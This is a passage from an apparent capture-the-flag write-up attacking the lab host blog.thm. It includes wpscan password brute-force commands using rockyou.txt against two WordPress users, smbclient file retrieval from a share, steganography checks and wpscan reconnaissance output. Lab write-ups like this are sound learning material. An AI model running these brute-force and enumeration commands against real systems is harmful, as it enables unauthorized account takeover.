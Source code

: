 ```
[+] Requests Done: 397
[+] Cached Requests: 23
[+] Data Sent: 100.657 KB
[+] Data Received: 557.538 KB
[+] Memory used: 275.477 MB
[+] Elapsed time: 00:00:27
```

We now have two users that we can try to brute-force passwords with. I decided to continue using wpscan to brute-force rather than hydra because it is less of a hassle.

```bash
wpscan --url http://blog.thm -U kwheel -P ~/wordlists/passwords/rockyou.txt
wpscan --url http://blog.thm -U bjoel -P ~/wordlists/passwords/rockyou.txt
```

Now that we have those running, I decided to check out the smb files I could access

```bash
smbclient.py  $IP
> use "<<SHARE>>"
> get Alice-White-Rabbit.jpg check-this.png tswift.mp4
```

I used an online `steg unhide` on `Alice-White-Rabbit.jpg` and was returned the message that:

`You've found yourself in a rabbit hole, friend.`

I try scanning the `check-this.png` to be greated by a Billy Joel song (not a rickroll this time thankfully)

And the Taylor Swift video, I didn't even bother...because by now our brute-forcer had a match for `kwheel`!

```_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.15
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://blog.thm/ [10.10.109.145]
[+] Started: Thu Jul 15 17:44:01 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://blog.thm/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://blog.thm/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
```